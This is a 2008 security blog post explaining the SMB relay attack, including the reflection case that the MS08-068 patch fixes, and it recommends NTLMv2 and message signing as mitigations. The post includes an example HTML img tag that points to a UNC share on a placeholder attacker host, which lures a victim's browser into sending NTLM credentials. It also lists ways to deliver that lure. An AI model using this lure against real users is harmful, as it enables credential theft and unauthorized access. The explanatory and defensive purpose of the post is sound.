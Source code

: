 ```yaml
---
id: 110
title: ms08-068 &#8212; Preventing SMBRelay Attacks
date: '2008-11-12T12:38:29-05:00'
author: ron
layout: post
guid: http://www.skullsecurity.org/blog/?p=110
permalink: "/2008/ms08-068-preventing-smbrelay-attacks"
categories:
- hacking
- smb
comments_id: '109638329014031096'

---
```


Microsoft released ms08-068 this week, which fixes a vulnerability that's been present and documented since 2001. I'm going to write a quick overview of it here, although you'll probably get a better one by reading <a href='http://blog.metasploit.com/2008/11/ms08-067-metasploit-and-smb-relay.html'>The Metasploit Blog</a>. 
<!--more-->
Keep in mind that there is a lot of fun stuff that can be done with the SMB protocol. I'm going to talk about a few different design flaws right now, and point out exactly what ms08-068 patches. Hang on, though, this is going to get somewhat technical. The payoff, however, is that this is incredibly interesting stuff, and I'm happy to clear up any technical confusion. Just leave me a comment or an email! 

I have talked about how <a href='http://www.skullsecurity.org/blog/?p=34'>Lanman and NTLM</a> work (or fail to work) in the past, so I'll assume you've read that and just post a quick overview here. Basically, Lanman and NTLM will hash your password using their respective algorithms (and store the hashes on the system), then hash it again based on the server's 8-byte challenge. This second hash is the same for Lanman and NTLM -- it takes the hash already generated, splits it into three 7-byte chunks (padding it to 21 bytes), and encrypting the server challenge with each of those chunks. If an attacker already has access to the Lanman and NTLM hashes, then the game has already been won (the hashes can be directly used to log in). 

The primary advantage to having a server challenge is to prevent pre-computed attacks (that is, it provides salt-like value to prevent rainbow tables-style precomputation attacks against the algorithm). Naturally, a malicious server can send a known challenge and generate tables based on that. This type of attack has been fixed in NTLMv2 (since the client provides part of the randomness). 

A SMB Relay attack is a type of man-in-the-middle attack where the attacker asks the victim to authenticate to a machine controlled by the attacker, then relays the credentials to the target. The attacker forwards the authentication information both ways, giving him access. Here are the players in this scenario:
<ul>
<li>The <b>attacker</b> is the person trying to break into the target</li>
<li>The <b>victim</b> is the person who has the credentials</li>
<li>The <b>target</b> is the system the attacker wants access to, and that the victim has credentials for</li>
</ul>

And here's the scenario (see the image at the right for a diagram):
<img src='/blogdata/ms08-068-1.png' style='float: right;' />
<ol>
<li>Attacker tricks the victim into connecting to him; this is easy, I'll explain how later</li>
<li>Attacker establishes connection to the target, receives the 8-byte challenge</li>
<li>Attacker sends the 8-byte challenge to victim</li>
<li>Victim responds to the attacker with the password hash</li>
<li>Attacker responds to the target's challenge with the victim's hash</li>
<li>Target grants access to attacker</li>
</ol>

In the case of Metasploit, the attacker goes on to upload and execute shellcode, but that process isn't important, and it's discussed on the Metasploit blog posting. 

Now, as an attacker, we have two problems: the victim needs to initiate a connection to the attacker, and the victim needs to have access to the target. 

The first problem is easy to solve -- to initiate a session, send the user a link that goes to the attacker's machine. For example, send them to a Web site containing the following code:
<pre>&lt;img src="\\Attacker\SHARE\file.jpg"&gt;</pre>

Their browser will attempt to connect to a share on the attacker called "SHARE", during which a session will be established. The victim's machine will automatically send the current credentials, hashed with whatever challenge is sent by the attacker (naturally, for the attack, this is the target's challenge). This can be delivered to them through an email link, through a stored cross-site scripting attack, by vandalizing a site they frequent, redirecting them with DNS poisoning, ARP spoofing, <a href='http://www.skullsecurity.org/blog/?p=6'>NetBIOS poisoning</a>, and any number of other ways. Suffice to say, it's pretty easy to trick the victim into connecting to the attacker. 


The second problem is that the victim needs to have access to the target. This one is slightly more difficult, but it can happen in a number of ways:
<ul>
<li>In a domain scenario, the user's domain account may have access to multiple machines, including the target</li>
<li>In other scenarios, users are well known to synchronize their password between machines. The target may have the same password as the victim, which would make the attack work</li>
<li>The target may be the <i>same physical machine as the victim</i></li>
</ul>

That third point is the interesting one -- this can be used to exploit the computer itself! So, in that scenario, here are the modified steps (see the image at the right, although I think it's probably more confusing :) ):
<img src='/blogdata/ms08-068-2.png' style='float: right;' />
<ol>
<li>Attacker tricks the victim into connecting to him</li>
<li>Attacker establishes connection back to the victim, receives the 8-byte challenge</li>
<li>Attacker sends the victim's 8-byte back</li>
<li>Victim responds to the attacker with the password hash that'll give the attacker access to the victim's own computer</li>
<li>Attacker responds to the victim's challenge with the victim's hash</li>
<li>Victim grants access to attacker</li>
</ol>

Hopefully that isn't too confusing. What it essentially means is that the victim will grant access to the attacker using its own credentials. 

And this particular attack is what ms08-068 patches! 

To put it another way: ms08-068 patches an attack (discovered in 2001) where a victim is tricked into giving an attacker access to connect to itself. 

<h2>Mitigation</h2>
I talked a lot about vulnerabilities in the SMB protocol. Unfortunately, ms08-068 only fixes one of them. The issue is that the others are design flaws and can't be fixed without breaking clients. That being said, even though Microsoft can't fix them, you can fix them yourself, more or less, at the cost of potentially breaking clients (these can be done with local/domain security policies or registry hacks; search for them to find information):
<ul>
<li>Enable (and require) NTLMv2 authentication -- this will prevent pre-computed attacks, because the client provides part of the randomness</li>
<li>Enable (and require) message signing for both clients and servers -- this will prevent relay attacks</li>
<li>Install ms08-068 -- this will prevent a specific subset of relay attacks, where it's relayed back to itself</li>
</ul>

Hope that helps! 

And, as usual, if you have any questions feel free to track me down. 

Ron

